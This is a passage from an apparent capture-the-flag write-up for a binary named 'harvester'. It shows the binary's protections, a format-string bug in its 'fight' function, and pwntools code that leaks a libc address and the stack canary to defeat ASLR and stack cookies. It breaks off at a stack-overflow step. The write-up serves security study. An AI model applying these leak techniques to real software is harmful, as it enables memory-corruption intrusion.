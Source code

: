 ```sh
[*] 'harvester'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

#### Harvest information required to bypass ASLR and stack cookie

We will use the format string vulnerability in `fight`:

```c
printstr("\nChoose weapon:\n");
printstr("\n[1] 🗡\t\t[2] 💣\n[3] 🏹\t\t[4] 🔫\n> ");
read(0, weapon, 5uLL);
printstr("\nYour choice is: "); 
printf((char *)weapon);
```

* `%3$p`: will leak a libc address, thereby bypassing libc ASLR
* `%15$p`: will leak the stack cookie, thereby bypassing stack protection

```python
    p.recvuntil(b'> ')
    p.sendline(b'1')

    p.recvuntil(b'> ')
    p.sendline(b'%3$p')

    data = p.recvuntil(b'> ')
    m = re.search(b'Your choice is: (0x[a-fA-F0-9]+)\n', data)
    assert(m)
    libc_leak = int(m.group(1), 0)

    libc_base = libc_leak - 0xe4774
    assert((libc_base & 0xfff) == 0)

    p.sendline(b'1')

    data = p.recvuntil(b'> ')
    p.sendline(b'%15$p')

    data = p.recvuntil(b'> ')
    m = re.search(b'Your choice is: (0x[a-fA-F0-9]+00)', data)
    assert(m)

    cookie = int(m.group(1), 0)
```

#### Stack overflow

There is a stack overflow in `stare`, however, to trigger it we need to have 22 pies:
